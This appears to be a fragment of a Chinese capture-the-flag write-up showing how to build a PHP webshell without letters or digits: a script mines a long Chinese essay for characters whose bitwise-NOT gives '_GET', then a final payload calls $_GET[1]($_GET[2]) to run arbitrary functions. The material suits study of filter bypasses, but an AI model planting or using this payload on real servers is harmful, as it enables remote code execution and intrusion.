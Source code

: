 ```php
$dicts = '当我站在山顶上俯瞰半个鼓浪屿和整个厦门的夜空的时候我知道此次出行的目的已经完成了我要开始收拾行李明天早上离开这里前几天有人问我大学四年结束了你也不说点什么乌云发生了一些事情所有人都缄默不言你也是一样吗你逃到南方难道不回家了吗当然要回家我只是想找到我要找的答案其实这次出来一趟很累晚上几乎是热汗淋漓回到住处厦门的海风伴着妮妲路过后带来的淅淅沥沥的小雨也去不走我身上任何一个毛孔里的热气好在旅社的生活用品一应俱全洗完澡后我爬到屋顶旅社是一个老别墅说起来也不算老比起隔壁一家旧中国时期的房子要豪华得多竖立在笔山顶上与厦门岛隔海相望站在屋顶向下看灯火阑珊的鼓浪屿街市参杂在绿树与楼宇间依稀还可以看到熙熙攘攘的游客大概是夜晚渐深的缘故周围慢慢变得宁静下来我忘记白天在奔波什么直到站在这里的时候我才知道我寻找的答案并不在南方当然也不在北方北京的很多东西让我非常丧气包括自掘坟墓的中介和颐指气使的大人们北京也有很多东西让我喜欢我喜欢颐和园古色古香的玉澜堂我喜欢朝阳门那块永延帝祚的牌坊喜欢北京鳞次栉比的老宅子和南锣鼓巷的小吃但这些都不是我要的答案我也不知道我追随的是什么但想想百年后留下的又是什么想想就很可怕我曾经为了吃一碗臭豆腐坐着优步从上地到北海北兴冲冲地来到那个垂涎已久的豆腐摊前用急切又害羞的口吻对老板说来两份量的臭豆腐其实也只要块钱吃完以后便是无与伦比的满足感我记得那是毕业设计审核前夕的一个午后五月的北京还不算炎热和煦的阳光顺着路边老房子的屋檐洒向大地但我还是不敢站在阳光下春天的燥热难耐也绝不输给夏天就像很多人冷嘲热讽的那样做这一行谁敢把自己完全曝光甭管你是黑帽子白帽子还是绿帽子生活在那个时候还算美好我依旧是一个学生几天前辞别的同伴还在朝九晚五的工作一切都照旧运行波澜不惊远走千里吃豆腐这种理想主义的事情这几年在我身上屡屡发生甚至南下此行也不例外一年前的这个时候我许过一个心愿在南普陀我特为此来还愿理想化单纯与恋旧其中单纯可不是一个多么令人称赞的形容很多人把他和傻挂钩你太单纯了你还想着这一切会好起来对呀在男欢女爱那些事情上我可不单纯但有些能让人变得圆滑与世故的抉择中我宁愿想的更单纯一些去年冬天孤身一人来到北京放弃了在腾讯做一个安逸的实习生的机会原因有很多也很难说在腾讯短暂的实习生活让我记忆犹新我感觉这辈子不会再像一个小孩一样被所有人宠了这些当我选择北漂的时候应该就要想到的北京的冬天刺骨的寒冷特别是年的腊月有几天连续下着暴雪路上的积雪一踩半步深咯吱咯吱响周遭却静的像深山里的古刹我住的小区离公司有一段距离才下雪的那天我甚至还走着回家北京的冬天最可怕的是寒风走到家里耳朵已经硬邦邦好像一碰就会碎在我一头扎进被窝里的时候我却慢慢喜欢上这个古都了我想到雍正皇帝里胤禛在北京的鹅毛大雪里放出十三爷那个拼命十三郎带着令牌取下丰台大营的兵权保了大清江山盛世的延续与稳固那一夜北京的漫天大雪绝不逊于今日而昔人已作古来者尚不能及多么悲哀这个古都承载着太多历史的厚重感特别是下雪的季节我可以想到乾清宫前广场上千百年寂寞的雕龙与铜龟屋檐上的积雪高高在上的鸱吻想到数百年的沧桑与朝代更迭雪停的那天我去了颐和园我记得我等了很久才摇摇摆摆来了一辆公交车车上几乎没有人司机小心翼翼地转动着方向盘在湿滑的道路上缓慢前行窗外白茫茫一片阳光照在雪地上有些刺眼我才低下头颐和园的学生票甚至比地铁票还便宜在昆明湖畔眺望湖面微微泛着夕阳霞光的湖水尚未结冰踩着那些可能被御碾轧过的土地滑了无数跤最后只能扶着湖边的石狮子叹气为什么没穿防滑的鞋子昆明湖这一汪清水见证了光绪皇帝被囚禁十载的蹉跎岁月见证了静安先生誓为先朝而自溺也见证了共和国以来固守与开放的交叠说起来家里有本卫琪著的人间词话典评本想买来瞻仰一下王静安的这篇古典美学巨著没想到全书多是以批判为主我自诩想当文人的黑客其实也只是嘴里说说真到评说文章是非的时候我却张口无词倒是誓死不去发这点确实让我无限感慨中国士大夫的骨气真的是从屈原投水的那一刻就奠定下来的有句话说古往今来中国三大天才死于水其一屈原其二李白其三王国维卫琪对此话颇有不服不纠结王国维是否能够与前二者相提并论我单喜欢他的直白能畅快评说古今词话的人也许无出其右了吧人言可畏人言可畏越到现代越会深深感觉到这句话的正确看到很多事情的发展往往被舆论所左右就越羡慕那些无所畏惧的人不论他们是勇敢还是自负此间人王垠算一个网络上人们对他毁誉参半但确实有本事而又不矫揉做作放胆直言心比天高的只有他一个了那天在昆明湖畔看过夕阳直到天空变的无比深邃我才慢慢往家的方向走耳机放着后弦的昆明湖不知不觉已经十年了不知道这时候他有没有回首望望自己的九公主和安娜是否还能够泼墨造一匹快马追回十年前姑娘后来感觉一切都步入正轨学位证也顺利拿到我匆匆告别了自己的大学后来也遇到了很多事事后有人找我很多人关心你少数人可能不是但出了学校以后又有多少人和事情完全没有目的呢我也考虑了很多去处但一直没有决断倒有念怀旧主也有妄自菲薄之意我希望自己能做出点成绩再去谈其他的所以很久都是闭门不出琢磨东西来到厦门我还了一个愿又许了新的愿望希望我还会再次来还愿我又来到了上次没住够的鼓浪屿订了一间安静的房子只有我一个人在这里能听到的只有远处屋檐下鸟儿叽叽喳喳的鸣叫声远处的喧嚣早已烟消云散即使这只是暂时的站在屋顶的我喝下杯中最后一口水清晨背着行李我乘轮渡离开了鼓浪屿这是我第二次来鼓浪屿谁知道会不会是最后一次我在这里住了三天用三天去寻找了一个答案不知不觉我又想到辜鸿铭与沈子培的那段对话大难临头何以为之世受国恩死生系之';

$s = '_GET';

for ($j = 0; $j < strlen($s); $j++){
    for ($i = 0; $i < mb_strlen($dicts, 'utf-8'); $i++){
        $t = mb_substr($dicts, $i, 1, 'utf-8');
        if ($s[$j] == ~($t[1])){
            echo "~($t{1})=".~($t[1]);
            echo "<br/>";
            break;
        }
    }
}

?>
```

这里好像必须得用 `mb_substr` 和 `mb_strlen` 才行

之后需要构造 `1`, 通过布尔运算可以知道 `[] == []` 的结果为 true, 转换成数字就是 `1`

最终 payload

```php
<?php
$__=[]==[];
$_=~((样)[$__]);
$_.=~((上)[$__]);
$_.=~((了)[$__]);
$_.=~((站)[$__]);
$$_[$__]($$_[$__.$__]);
```

